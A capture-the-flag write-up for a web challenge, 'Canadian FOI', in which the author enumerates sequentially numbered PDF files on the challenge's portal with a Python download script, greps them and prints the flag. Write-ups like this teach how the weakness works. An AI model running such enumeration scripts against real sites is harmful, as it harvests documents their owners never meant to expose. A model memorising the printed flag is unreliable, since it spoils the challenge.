

#  Canadian FOI
tags: misc | web

## Description

>The university has this Freedom Of Information Portal. <br>
You should check it out.<br>
[To the portal](http://foi.uni.hctf.fun/)




## Solution
The website doesn't contain useful informations. In the homepage we can only visit the about page, that contains useless stuff, and download a pdf file.
The latter one contains other craps, but the filename in the link is interesting: `/docs/document_001.pdf`. I tried with different numbers and discovered that every file with a filename like "`/docs/document_` + 3 digit number + `.pdf`" can be downloaded.<br>
So I wrote a simple python script to download them, with a nice fancy progress bar:

```python
import requests
from tqdm import tqdm

baseurl = "http://foi.uni.hctf.fun/docs/document_"

for number in tqdm(range(0, 999)):
    pdf_number = "0"*(3-len(str(number))) + str(number)

    url = baseurl + pdf_number + ".pdf"
    r = requests.get(url, stream=True)

    if r.status_code == 200:
        with open('./files/file_' + pdf_number + '.pdf', 'wb') as fd:
            for chunk in r:
                fd.write(chunk)
```

With all the documents in the *files* folder I could search for the word "*flag*", using the following command:

```bash
find ./files -iname '*.pdf' -exec pdfgrep flag {} +
```

that prints thie following result:

```bash
./files/file_255.pdf:Here it is: flag{F1rst_Gr4d3rs_4r1thm3t1c_1s_d4ng3r0us}
```

Found!
